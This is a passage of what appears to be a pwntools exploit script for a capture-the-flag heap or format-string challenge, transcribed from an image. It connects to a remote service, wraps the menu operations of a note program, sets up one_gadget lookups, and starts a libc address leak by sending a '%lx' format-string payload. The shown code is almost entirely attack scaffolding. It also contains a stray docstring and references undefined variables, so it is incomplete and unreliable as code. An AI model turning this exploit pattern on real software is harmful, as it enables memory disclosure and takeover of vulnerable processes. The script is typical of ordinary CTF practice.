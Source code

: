 ```python
"""
 
if __name__ == '__main__':
    local = sys.argv[1]
    if local == 'l':
        r= process(pc)
        elf = ELF(pc)
    else:
        r=remote("34.45.81.67",16006)
        elf = ELF(pc)

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l1', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)

s = lambda *a, **k: r.send(*a, **k)
sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
rl = lambda: r.recvline()
ru = lambda s : r.recvuntil(s, drop=True)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bhex = lambda b: int(b.decode(), 16)
ru7f = lambda: r.recvuntil(b'\x7f')
dbg = lambda: gdb.attach(r)
dbgstart = lambda script=scripts: gdb.attach(r, gdbscript=script)

def create(name,content, password=False):
    sla("Choice: ",'1')
    sla("> ",name)
    sla("> ",content)
    sla("> ", 'y' if password else 'n')
def change(idx, name, content):
    sla("Choice: ",'2')
    sla("> ",str(idx))
    sla(": ",name)
    sla(": ", content)

def show(idx):
    sla("Choice: ",'3')
    sla("> ",str(idx))
def remove(idx):
    sla("Choice: ",'4')
    sla("> ",str(idx))
def save(name):
    sla("Choice: ",'5')
    sla("> ",name)

#dbgstart()

# leak libc
sla("Choice: ","1")
sla("> ","%lx")
sla("> ","abc")
sla("> ","n")
```